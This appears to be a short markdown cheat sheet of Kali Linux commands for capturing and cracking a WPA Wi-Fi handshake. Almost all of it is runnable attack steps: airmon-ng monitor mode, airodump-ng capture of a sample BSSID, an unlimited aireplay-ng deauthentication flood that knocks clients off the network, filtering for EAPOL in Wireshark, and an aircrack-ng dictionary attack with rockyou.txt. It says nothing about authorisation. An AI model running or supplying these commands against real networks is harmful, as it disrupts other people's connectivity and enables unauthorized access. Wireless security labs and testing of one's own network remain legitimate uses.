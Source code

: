 # See version of Kali
``cat /etc/os-release``
``uname -a``

# See interfaces
``ip addr``
``iwconfig``

# !kill processes
``sudo airmon-ng check kill``

# Start monitor mode
## ``sudo airmon-ng start wlan0``

# Verify that monitor mode is used
## sudo airmon-ng 

# You could also use iwconfig to check that interface is in monitor mode:
## iwconfig

# Get the AP's MAC address and channel
## sudo airodump-ng wlan0mon

# AP-MAC & channel - you need to select your own here:
``ESSID: 90:9A:4A:B8:F3:FB``
Channel used by AP for SSID: 

# 1st Window:
## Make sure you replace the channel number and bssid with your own
### Replace hack1 with your file name like capture1 or something 
## ```sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon```

!2nd Window - deauth attack
!Make sure you replace the bssid with your own
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

!Use Wireshark to open hack file
wireshark hack1-01.cap
!Filter Wireshark messages for EAPOL
eapol

!Stop monitor mode
airmon-ng stop wlan0mon

!Crack file with Rock you or another wordlist
!Make sure you have rockyou in text format (unzip file on Kali)
!Replace hack1-01.cap with your file name
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 
